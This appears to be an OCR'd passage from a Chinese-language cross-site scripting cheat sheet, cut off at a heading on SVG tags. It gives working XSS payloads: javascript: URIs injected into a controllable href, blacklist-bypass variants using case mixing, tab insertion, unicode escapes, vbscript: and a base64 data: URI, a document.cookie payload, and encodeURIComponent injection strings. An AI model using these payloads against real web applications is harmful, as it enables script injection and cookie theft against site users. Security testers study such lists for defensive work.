 ```
DOMMouseScroll
DOMNodeInserted
DOMNodeInsertedIntoDocument
DOMNodeRemoved
DOMNodeRemovedFromDocument
DOMSubtreeModified
```
HREF内容可控
```
<a href="Userinput">Click</a>
```
可控的是Userinput那里我们需要做的只是把javascript代码输入就好了：
```
javascript:alert(1)//
```
最后组合为：
```
<a href="javascript:alert(1)//">Click</a>
```
使用HTML实体URL编码绕过黑名单，href里会自动实体解码，如果都失败了，可以尝试使用vbscript在IE10以下都有效，或者使用data协议。

JavaScript变换

使用javascript协议时可使用的例子：
```
javascript:alert(1)
javaSCRIPT:alert(1)
JaVaScRipT:alert(1)
javas	cript:\u0061lert(1);
javascript:\u0061lert(1)
javascript:alert(document.cookie)
```
Vbscript变换
```
vbscript:alert(1);
vbscript:alert(1);
vbscr	ipt:alert(1)"
Data URl
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```
当你的输入会在encodeURIComponent当中显示出来的时候，很容易插入xss代码了
```
encodeURIComponent('userinput')
```
userinput处可控，测试代码：
```
-alert(1)-
-prompt(1)-
-confirm(1)-
```
最终结果：
```
encodeURIComponent("-alert(1)-")
encodeURIComponent("-prompt(1)-")
```
SVG标签
